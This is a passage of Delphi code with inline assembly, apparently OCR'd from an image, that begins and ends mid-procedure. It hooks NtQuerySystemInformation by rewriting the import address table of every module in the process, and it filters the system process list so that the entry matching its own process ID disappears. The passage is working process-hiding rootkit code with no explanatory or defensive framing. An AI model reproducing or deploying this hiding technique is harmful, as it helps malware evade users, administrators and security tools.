     onceagain:
    mov esi,SystemInformation
    getnextpidstruct:
    mov ebx,esi
    cmp dword ptr [esi],0
    je quit
    add esi,[esi]
    mov ecx,[esi+44h]
    cmp ecx,mypid
    jne getnextpidstruct
    mov edx,[esi]
    test edx,edx
    je fillzero
    add [ebx],edx
    jmp onceagain
    fillzero:
    and [ebx],edx
    jmp onceagain
    quit:
    mov Result,eax
    end;
     
    procedure InterceptFunctions;
    var
      hSnapShot: THandle;
      me32: MODULEENTRY32;
    begin
      addr_NtQuerySystemInformation := GetProcAddress(getModuleHandle('ntdll.dll'),
        'NtQuerySystemInformation');
      hSnapShot := CreateToolHelp32SnapShot(TH32CS_SNAPMODULE, GetCurrentProcessId);
      if hSnapshot = INVALID_HANDLE_VALUE then
        exit;
      try
        ZeroMemory(@me32, sizeof(MODULEENTRY32));
        me32.dwSize := sizeof(MODULEENTRY32);
        Module32First(hSnapShot, me32);
        repeat
          ReplaceIATEntryInOneMod('ntdll.dll', addr_NtQuerySystemInformation,
            @MyNtQuerySystemInfo, me32.hModule);
        until not Module32Next(hSnapShot, me32);
      finally
        CloseHandle(hSnapShot);
      end;
    end;
     
    procedure UninterceptFunctions;
    var
      hSnapShot: THandle;
      me32: MODULEENTRY32;
    begin
      addr_NtQuerySystemInformation := GetProcAddress(getModuleHandle('ntdll.dll'),
        'NtQuerySystemInformation');
      hSnapShot := CreateToolHelp32SnapShot(TH32CS_SNAPMODULE, GetCurrentProcessId);
      if hSnapshot = INVALID_HANDLE_VALUE then
        exit;
      try
        ZeroMemory(@me32, sizeof(MODULEENTRY32));
        me32.dwSize := sizeof(MODULEENTRY32);
        Module32First(hSnapShot, me32);
        repeat
          ReplaceIATEntryInOneMod('ntdll.dll', @MyNtQuerySystemInfo,
            addr_NtQuerySystemInformation, me32.hModule);
        until not Module32Next(hSnapShot, me32);
      finally